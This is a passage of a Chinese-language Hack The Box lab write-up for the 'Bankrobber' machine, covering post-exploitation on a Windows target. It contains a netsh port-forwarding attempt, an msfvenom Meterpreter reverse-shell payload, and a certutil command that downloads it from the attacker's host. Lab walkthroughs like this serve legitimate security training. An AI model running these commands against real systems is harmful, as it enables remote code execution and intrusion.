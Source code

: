 ![image-20200927142406277]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927142406277.png)




1628是bank2.exe

找一下发现在C盘

![image-20200927142443882]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927142443882.png)



so要么端口转发，要么逆向/
window xp以上支持端口转发

```powershell
C:\Users\Cortin\Desktop> netsh interface portproxy add v4tov4 listenport=910 listenaddress=0.0.0.0 connectport=443 connectaddress=10.10.14.25
```

![image-20200927142544608]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927142544608.png)


没权限？runas

![image-20200927142631556]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927142631556.png)


仍未建立成功，不知道这里是我操作问题还是什么

```powershell
netsh interface portproxy dump
```

![image-20200927142824160]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927142824160.png)

换个思路
传一个，meterpreter马（是的，开始不要脸了）

kali端生成，放入刚刚我们python http服务的工作目录。

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.25 lport=1337 -f exe > metershell.exe
```

靶机执行下载

```powershell
C:\Users\Cortin\Desktop> certutil -urlcache -split -f http://10.10.14.25:8080/metershell.exe
```


![image-20200927143130589]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927143130589.png)

msf设置监听

![image-20200927143209473]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927143209473.png)

靶机激活

![image-20200927143239618]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927143239618.png)
